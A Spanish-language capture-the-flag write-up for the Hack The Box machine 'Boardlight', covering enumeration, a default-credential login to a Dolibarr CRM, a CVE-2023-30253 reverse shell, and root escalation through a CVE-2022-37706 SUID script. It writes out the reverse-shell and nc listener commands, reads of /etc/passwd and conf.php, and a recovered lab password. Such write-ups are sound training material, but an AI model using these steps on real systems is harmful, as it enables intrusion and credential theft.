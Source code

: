 Maquina: Boardlight

Autor:

Dificultad: Facil

Iniciamos la máquina y verificamos la conexión

ping 10.129.135.122 -c 1

Enumeramos la maquina con nmap 

nmap -sV 10.129.135.122

En la web muestra 'Bienvenido a BOARDLIGHT' mantenida por Board.htb.

Abrimos el enlace y usamos Ffuf.

ffuf -w /usr/share/wordlists/dirb/big.txt -H "Host:FUZZ.board.htb" -u "http://board.htb/"

Encontramos el archivo index.php por lo que realizamos la búsqueda.

http://crm.board.htb/index.php

Es un panel de login por lo que probamos las credenciales más comunes. Probamos admin tanto para contraseña y usuario y nos deja iniciar sesión correctamente.

Revisamos la versión por Internet si tiene alguna vulnerabilidad. Efectivamente tiene una vulnerabilidad que intentaremos explotar haciendo una Reverse Shell.

"Copiemos esta versión y busquemos el exploit en Google, y encontrarás un exploit CVE-2023–30253.

https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

Ejecutamos el script mientras nos ponemos en escucha para conectarnos.

python3 exploit.py http://crm.board.htb admin admin 10.10.14.101 4444

nc -lvnp 4444

Revisamos todos los archivos y encontramos la contraseña ssh en el archivo conf.php. Vamos a comprobar el nombre de usuario. 

Vemos que hay un directorio larissa en cd /home/.

cat /etc/passwd | grep bash

cat /var/www/html/crm.board.htb/htdocs/conf/conf.php

Nos conectamos a larissa por ssh con la contrasena encontyrada: serverfun2$2023!!

cat user.txt

SUID exploited using CVE-2022–37706

Utilizamos LinPEAS

Buscamos el código del script en GitHub, lo copiamos y lo pegamos en un nuevo archivo suid.sh en el directorio del usuario Larissa.

nano suid.sh

Para ejecutar el script, necesitamos otorgarle permisos de ejecución

chmod +x suid.sh

Ejecutamos el script 

bash suid.sh  

./exploit.sh

ls

cat root.txt


